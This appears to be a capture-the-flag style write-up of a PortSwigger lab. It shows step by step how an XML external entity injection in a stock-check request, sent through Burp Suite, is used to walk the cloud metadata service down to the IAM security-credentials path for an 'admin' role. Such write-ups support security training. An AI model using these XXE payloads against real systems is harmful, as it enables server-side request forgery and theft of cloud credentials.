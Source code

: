 ```yaml
---
description: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf
---
```


# Exploiting XXE to perform SSRF attacks

<figure><img src="../../../.gitbook/assets/1 (157).png" alt=""><figcaption></figcaption></figure>

Let's check the stock of one of the products.

<figure><img src="../../../.gitbook/assets/2 (10).png" alt=""><figcaption></figcaption></figure>

Since we are proxying the requests through Burp Suite, we can go to `Proxy > HTTP History` to view the request.

<figure><img src="../../../.gitbook/assets/3 (10).png" alt=""><figcaption></figcaption></figure>

We can see that the request contains an XML entity.

Let's forward this request to the `Repeater` for further modification.

Once in the `Repeater` tab, declare the following internal entity after the XML prologue:

```
<!DOCTYPE test 
	[<!ENTITY test SYSTEM "http://169.254.169.254/">]
>
```

<figure><img src="../../../.gitbook/assets/4 (7).png" alt=""><figcaption></figcaption></figure>

Let's add the `latest` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/">]
```

<figure><img src="../../../.gitbook/assets/5 (8).png" alt=""><figcaption></figcaption></figure>

Let's add the `meta-data` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/">]
```

<figure><img src="../../../.gitbook/assets/6 (6).png" alt=""><figcaption></figcaption></figure>

Let's add the `iam` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/">]
```

<figure><img src="../../../.gitbook/assets/7 (5).png" alt=""><figcaption></figcaption></figure>

Let's add the `credentials` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">]
```

<figure><img src="../../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

Let's add the `admin` endpoint to the entity.

```
[<!ENTITY test SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/">]
```

<figure><img src="../../../.gitbook/assets/9 (2).png" alt=""><figcaption></figcaption></figure>

We have solved the lab.

<figure><img src="../../../.gitbook/assets/10 (2).png" alt=""><figcaption></figcaption></figure>
